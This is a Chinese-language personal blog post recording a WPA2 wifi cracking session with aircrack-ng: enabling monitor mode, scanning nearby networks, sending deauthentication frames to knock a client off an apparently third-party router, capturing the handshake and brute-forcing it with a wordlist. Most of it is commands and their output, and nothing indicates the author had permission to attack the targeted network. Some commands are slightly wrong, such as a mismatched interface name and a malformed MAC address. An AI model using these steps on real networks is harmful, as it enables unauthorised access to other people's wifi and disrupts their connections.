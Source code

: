 ```yaml
---
layout: post
title:  "一次wifi破解记录"
categories: Hacker
tags:  wifi hacker
---
```


* content
{:toc}


## 0x00 前言

wifi破解工具有很多，比如wifite、aircrack、cowpatty、reaver等等，其中wifite是最傻瓜式的，但是个人尝试很久，没有破解成功一次，我就很好奇，是我的方式不对？cowpatty只管破解，因此还是要和air结合起来用。reaver破解的非常非常慢，一次要很久，但是一般都能搞定。这次先用aircrack。

## 0x01 准备

装逼要用全套的，特意买的3070的网卡，专用破解。

据说效果很好，但是我完全体会不到......

```
~$ lsusb
Bus 001 Device 014: ID 148f:3070 Ralink Technology, Corp. RT2870/RT3070 Wireless Adapter

~$ iwconfig
wlan1     IEEE 802.11bgn  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=30 dBm
          Retry  long limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
```

## 0x02 获取握手包

### 1.激活监听模式

```
~$ airmon-ng start wlan1

PHY     Interface       Driver          Chipset
phy1    wlan1           rt2800usb       Ralink Technology, Corp. RT2870/RT3070

                (mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
                (mac80211 station mode vif disabled for [phy1]wlan1)
                (mac80211 station mode vif disabled for [phy1]wlan1)
```

激活之后就发现名称变了，多了个mon，后面的mode是monitor。

```
~$ /home/dante# iwconfig

wlan1mon  IEEE 802.11bgn  Mode:Monitor  Tx-Power=30 dBm
          Retry  long limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

### 2. 获取wifi信息
```
airodump-ng wlan0mon
下面就会显示出所有的wifi的链接信息。之前遗漏了这一块，暂时不补了。

```

### 3.抓包

破解的过程就是先抓包，抓到它的四次握手包，然后破解出密码。

```
airodump-ng --ivs -w filename -c wlan1mon
```

```
  BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                                                                                                                                   
 5C:63:BF:61:8B:C8  -58      639      761    0   6  54e. WPA2 CCMP   PSK  quan
 30:F3:35:87:24:BC  -66      330        0    0   4  54e  WPA2 CCMP   PSK  CU_57w8
 C0:61:18:22:8B:2B  -65      620      547    0   6  54e. WPA2 CCMP   PSK  tunshi6
 64:09:80:4B:FC:2C  -71      223     2184    1   1  54e  WPA2 CCMP   PSK  Xiaomi_tunshi7
 ......                                                                                                                                                   
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                                                                                    
 5C:63:BF:61:8B:C8  A4:C4:94:DB:10:1A  -44    0 - 2e     0      153  quan
 C0:61:18:22:8B:2B  74:2F:68:4A:7B:7B  -84    0e- 1      0      558  tunshi6
 64:09:80:4B:FC:2C  AC:B5:7D:D1:00:62   -1    1e- 0      0      154
 64:09:80:4B:FC:2C  14:F6:5A:B6:E2:94  -80    1e- 1      0     1369  su8-1
 ......
```

### 4.Deauth攻击

现在对脸上路由器64:09:80:4B:FC:2C上的设备64:09:80:4B:FC:2C进行攻击。

```
~$ aireplay-ng -0 10 -a 64:09:80:4B:FC:2C -c 64:09:80:4B:FC:2C4 wlan1mon --ignore-negative-one
13:18:29  Waiting for beacon frame (BSSID: 64:09:80:4B:FC:2C) on channel -1
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:31  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:31  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:32  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
```
可以看到，当发送攻击的时候，你攻击的那台设备就会丢包。

```
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
 C0:61:18:22:8B:2B  74:2F:68:4A:7B:7B  -86    0e- 1      0      834  tunshi6
 64:09:80:4B:FC:2C  14:F6:5A:B6:E2:94    0    0e- 1    373     3782  su8-1
```

发送了好几次攻击，过了二十多分钟才获取到握手包。可以看到下面获取到了handshake

```
  CH  4 ][ Elapsed: 25 mins ][ 2016-03-06 13:34 ][ WPA handshake: 64:09:80:4B:FC:2C
                                                                                                                                                    
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                    
 5C:63:BF:61:8B:C8  -58     1973      909    0   6  54e. WPA2 CCMP   PSK  quan
 30:F3:35:87:24:BC  -64     1062        0    0   4  54e  WPA2 CCMP   PSK  CU_57w8
 64:09:80:4B:FC:2C  -73      707     4411    0   1  54e  WPA2 CCMP   PSK  Xiaomi_tunshi7
 ......
```
## 0x03 破解

破解就是用了爆破，完全是看字典！

```
aircrack-ng -w dic.txt test-0*.cap

```
然后选定需要破解的wifi即可开始进行破解。话说，运气不好的时候，打死也破解不出来.......

```
                           Aircrack-ng 1.2 rc3


                   [00:00:31] 12552 keys tested (381.79 k/s)


                       Current passphrase: 123bandit


      Master Key     : E3 A0 4F 08 DC D9 95 A5 87 48 02 B5 E1 93 C6 84
                       75 DD 23 E8 45 65 DD CA B8 89 53 96 75 E8 56 10

      Transient Key  : 11 24 33 3A FE 8F 51 E6 7D 7C C5 C2 BB 9B 0B 6F
                       4F 99 8C 5D 67 2B E2 6A 9C 34 2A 4A FB 1D 19 4F
                       84 C4 4C 8D 58 3B 22 70 C9 36 FD 98 D9 D6 E6 94
                       72 C9 AF 54 E1 B2 83 F1 EF 2A FA 0C 7D 59 3A 96

      EAPOL HMAC     : 80 84 40 03 84 DC E4 20 41 FF 74 C8 FB 1C DE EB
```

## 0xFF 总结

aircrack的确是神器，用好了破解个wifi不是太大问题的，不过也就弱密码比较好搞定一些，有些意识比较强的孩子密码设置的比较神奇，基本也没戏。

不过破解的方式也总是在提高，比如彩虹表、GPU这些各种高效的方式都可以使用，目前爆破能拿来玩一玩，剩余的慢慢研究。

**补充**

其实到头来都是在用工具，对里面的原理还没有太深的理解，下一步多了解一些使用方式后，着重自己动手写一些程序来操作。


******
2016-03-06 19:18:00 hnds
